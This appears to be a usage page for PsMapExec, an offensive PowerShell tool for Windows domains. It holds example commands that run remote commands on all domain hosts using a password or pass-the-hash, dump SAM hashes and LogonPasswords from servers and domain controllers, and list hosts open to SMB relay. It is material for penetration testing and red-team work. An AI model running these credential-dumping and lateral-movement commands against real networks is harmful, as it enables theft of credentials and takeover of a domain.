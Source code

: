 # General Usage

The general usage of PsMapExec is to define the following:

* Targets - Which targets we cant to run against
* Username - Domain user for which we wish to authenticate against the targets
* Password - Used for authentication
* Hash - Used for authentication. You can supply either a hash or a password.&#x20;
* Method - How to authenticate against the hosts
* Module - (Optional) If any modules need to be run against the target
* Option - (Optional) Provide further commands to select modules
* Command - (Optional) execute commands against the target

Most of these have additional documentation that delves into more detail about each (Available on the lefthand sidebar of this page).

Generally, you can mix and match various parameters across different methods and modules.

## Examples

Execute WMI commands over all systems in the domain using password authentication

```
PsMapExec -Username Admin -Password Pass -Targets All -Method WMI -Command "net user"
```

Execute WinRM commands over all systems in the domain using hash authentication

```
PsMapExec -Username Admin -Hash [Hash] -Targets All -Method WinRM -Command "net user"
```

Check RDP Access against workstations in the domain

```
PsMapExec -Username Admin -Password Pass -Targets Workstations -Method RDP
```

Dump SAM on all servers in the domain using PsExec

```
PsMapExec -Username Admin -Hash [Hash] -Targets Servers -Method PsExec -Module SAM
```

Check SMB Signing on all domain systems

```
PsMapExec -Targets All -GenRelayList
```

Dump LogonPasswords on all Domain Controllers over WinRM

```
PsMapExec -Username Admin -Password Pass -Targets DCs -Method WinRM -Module LogonPasswords
```
